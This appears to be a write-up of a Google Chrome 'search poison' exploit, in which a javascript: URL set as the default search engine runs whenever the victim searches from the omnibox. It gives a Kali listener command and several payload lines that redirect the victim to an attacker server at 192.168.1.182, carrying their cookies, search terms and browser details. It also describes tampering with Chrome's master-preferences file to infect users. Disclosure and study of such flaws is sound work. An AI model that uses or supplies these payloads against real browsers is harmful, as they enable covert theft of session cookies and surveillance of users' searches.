

Google Chrome Search Poison – Default Search Engine Exploit
##Introduction
In December 2015, I discovered a vulnerability in Google Chrome's default search engines feature whereby a lack of input sanitation allows an attacker to store XSS in the victim's browser. This stored XSS is then executed whenever the victim searches using the omnibox. 
In this walkthrough we'll set up a Python SimpleHTTPServer and intercept the victim’s Cookies and search keywords. 
 
Note: The vulnerability has been reported to the Chromium team but they will not fix the issue.
##Video Demo

 

The video demonstration involves manipulation of the chrome master-preferences file to infect the user with the malicious search engine. The user is then directed to the attackers apache server, which extracts the search query, cookies and other system information and seamlessly directs them back to their search. 

##Walkthrough - Setting up the Listener in Kali
<code>

root@kali:~$ <com>python -m SimpleHTTPServer 80</com>

</code>
##Setup on Victim Machine
1. Go into **"Settings"** in Google Chrome 
2. Click on **"Manage Search Engines"** 
3. Enter your malicious JS and click **"Make Default"** 

##Example
<code>

<com>javascript:window.location='http://192.168.1.182/%s'+escape(document.cookie);</com>

</code>
Note: 192.168.1.182 is our SimpleHTTPServer. 
Now whenever the victim searches using Google Chrome’s Omnibox, the malicious JS will trigger, forwarding you their cookie and search string (%s). 
##Other examples
<code>

javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.cookie); 
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.baseURI); 
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.domain); 
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.URL); 
javascript:window.location=’http://192.168.1.182/%s ‘+escape(location.host); 
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appCodeName); 
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appName); 
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appVersion); 
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.platform); 
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.userAgent); 
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.platform); 
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.product);

</code>

Tags: search-poison
